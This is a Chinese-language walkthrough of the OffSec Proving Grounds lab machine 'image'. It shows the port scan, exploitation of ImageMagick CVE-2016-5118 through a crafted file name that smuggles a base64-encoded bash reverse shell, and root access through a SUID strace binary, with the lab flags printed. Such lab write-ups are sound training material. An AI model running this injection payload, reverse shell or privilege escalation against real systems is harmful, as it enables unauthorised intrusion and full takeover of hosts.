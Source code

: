###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# image
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.190.178 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.190.178:22
Open 192.168.190.178:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: ImageMagick Identifier
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

先隨便上傳一個jpg可以得到版本
```
File uploaded successfully.
Version: 6.9.6-4
```

google可得[CVE-2016-5118](https://github.com/ImageMagick/ImageMagick/issues/6339)，他說圖片要改名成有pip的部分，但又不能接符號，所以只能`base64`
```
/bin/sh -i >& /dev/tcp/192.168.45.193/80 0>&1 
-> L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE5My84MCAwPiYx

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp80

## 改名
cp capoo.jpg |capoo"`echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE5My84MCAwPiYx | base64 -d | bash`".jpg
```

等反彈，在`/var/www`得local.txt
```
www-data@image:/var/www$ cat local.txt
aeb651cfbc99fab5e64c7b54e732383b
```

find `binaries`，查看[GTFOBins](https://gtfobins.github.io/gtfobins/strace/#suid)，在/root得proof.txt
```
www-data@image:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/strace
...

www-data@image:/tmp$ install -m =xs $(which strace) .
www-data@image:/tmp$ /usr/bin/strace -o /dev/null /bin/sh -p

# whoami
root
# cd /root
# ls
ImageMagick-7.1.0-16  email2.txt  proof.txt  snap
# cat proof.txt
e6a9940b5874cb833ed74c38a6ece442
```